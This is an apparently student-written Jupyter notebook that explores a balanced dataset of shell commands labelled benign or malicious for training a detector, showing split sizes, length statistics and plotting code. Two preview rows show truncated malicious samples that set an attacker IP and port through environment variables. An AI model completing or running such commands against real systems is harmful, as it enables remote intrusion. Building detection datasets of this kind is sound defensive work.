DATASET OVERVIEW
Total rows       : 100000
Columns          : ['command', 'label', 'split']

First 5 rows:
                                             command  label  split
0               split --bytes=1500000000 abc.txt abc      0  train
1     find . -iname *.page -exec ~/t.sh {} \; | sort      0  train
2  export port_1="10.105.206.252";export port_2=5...      1  train
3                                   mkdir saxon_docs      0  train
4  export 0duw_1="127.0.0.1";export 0duw_2=8000;p...      1  train

SPLIT SIZES
train       :  80000 rows  |  benign=40000  malign=40000
validation  :  10000 rows  |  benign=5000  malign=5000
test        :  10000 rows  |  benign=5000  malign=5000

LABEL BALANCE (full dataset)
label
0    50000
1    50000
Name: count, dtype: int64

COMMAND LENGTH STATS
         count    mean    std   min   25%   50%    75%    max
label                                                        
0      50000.0   45.89  28.38   2.0  26.0  40.0   59.0  532.0
1      50000.0  123




Plot saved to dataset_overview.png


In [1]:
import pandas as pd
import matplotlib.pyplot as plt

# ── Load ──────────────────────────────────────────────────────────────────────
df = pd.read_csv(r"C:\Users\bouib\Desktop\GI2\AI-CMD-Assistant\data\processed_malign_benign\task1_dataset.csv")

# ── Basic info ────────────────────────────────────────────────────────────────
print("=" * 50)
print("DATASET OVERVIEW")
print("=" * 50)
print(f"Total rows       : {len(df)}")
print(f"Columns          : {list(df.columns)}")
print(f"\nFirst 5 rows:")
print(df.head())

# ── Split sizes ───────────────────────────────────────────────────────────────
print("\n" + "=" * 50)
print("SPLIT SIZES")
print("=" * 50)
for split in ["train", "validation", "test"]:
    subset = df[df["split"] == split]
    benign  = len(subset[subset["label"] == 0])
    malign  = len(subset[subset["label"] == 1])
    print(f"{split:12s}: {len(subset):6d} rows  |  benign={benign}  malign={malign}")

# ── Label balance ─────────────────────────────────────────────────────────────
print("\n" + "=" * 50)
print("LABEL BALANCE (full dataset)")
print("=" * 50)
print(df["label"].value_counts())

# ── Command length stats ──────────────────────────────────────────────────────
df["cmd_length"] = df["command"].str.len()
print("\n" + "=" * 50)
print("COMMAND LENGTH STATS")
print("=" * 50)
print(df.groupby("label")["cmd_length"].describe().round(2))

# ── Sample commands ───────────────────────────────────────────────────────────
print("\n" + "=" * 50)
print("SAMPLE BENIGN COMMANDS (label=0)")
print("=" * 50)
print(df[df["label"] == 0]["command"].sample(5, random_state=42).tolist())

print("\n" + "=" * 50)
print("SAMPLE MALICIOUS COMMANDS (label=1)")
print("=" * 50)
print(df[df["label"] == 1]["command"].sample(5, random_state=42).tolist())

# ── Plot ──────────────────────────────────────────────────────────────────────
fig, axes = plt.subplots(1, 2, figsize=(12, 4))

# Class distribution
df["label"].value_counts().plot(kind="bar", ax=axes[0], color=["steelblue", "tomato"])
axes[0].set_title("Class Distribution")
axes[0].set_xticklabels(["Benign (0)", "Malicious (1)"], rotation=0)
axes[0].set_ylabel("Count")

# Command length distribution
for label, color, name in [(0, "steelblue", "Benign"), (1, "tomato", "Malicious")]:
    df[df["label"] == label]["cmd_length"].clip(upper=300).hist(
        bins=50, alpha=0.6, color=color, label=name, ax=axes[1]
    )
axes[1].set_title("Command Length Distribution")
axes[1].set_xlabel("Characters")
axes[1].set_ylabel("Count")
axes[1].legend()

plt.tight_layout()
plt.savefig("dataset_overview.png", dpi=150)
plt.show()
print("\nPlot saved to dataset_overview.png")